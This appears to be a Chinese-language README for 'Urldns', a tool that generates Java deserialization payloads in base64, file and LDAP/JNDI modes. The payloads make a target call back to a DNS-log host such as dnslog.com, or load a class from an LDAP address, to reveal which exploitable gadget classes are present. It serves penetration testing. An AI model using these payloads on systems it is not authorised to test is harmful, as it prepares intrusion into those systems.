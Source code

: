 # Urldns
此工具仅能dnslog漏洞测试，不可用于非法用途，有问题请联系sonomon@126.com

有三种模式，base64，file，ldap，file默认当前目录生成文件1.ser，ldap默认端口1389。

请输入: java -jar Urldns.jar base64 all dnslog.com

或者   : java -jar Urldns.jar file all dnslog.com

或者   : java -jar Urldns.jar ldap all dnslog.com

目前支持的内置探测类如下，使用all将全部探测，可以将all替换为如下简写进行单独探测，也可以填写自定义的类进行探测。如果想同时探测多个类，用|分割。
CommonsCollections13567
CommonsCollections24
CommonsBeanutils2
C3P0
AspectJWeaver
bsh
Groovy
Becl
Jdk7u21
winlinux
使用ldap模式的all将额外探测如下
javax.el.ELProcessor
org.apache.naming.factory.BeanFactory
groovy.lang.GroovyShell
groovy.lang.GroovyClassLoader
org.yaml.snakeyaml.Yaml
com.thoughtworks.xstream.XStream
org.mvel2.sh.ShellSession
org.apache.catalina.UserDatabase
org.apache.catalina.users.MemoryUserDatabaseFactory
org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory
org.apache.tomcat.dbcp.dbcp.BasicDataSourceFactory
org.apache.commons.dbcp2.BasicDataSourceFactory
org.apache.commons.dbcp.BasicDataSourceFactory
org.apache.tomcat.jdbc.pool.DataSourceFactory
com.alibaba.druid.pool.DruidDataSourceFactory

示例: java -jar Urldns.jar base64 "CommonsBeanutils2|C3P0|ognl.OgnlContext" dnslog.com
ldap模式支持ldap://2.2.2.2:1389/jndi，将不再反序列化而是远程加载class，以探测是否出网
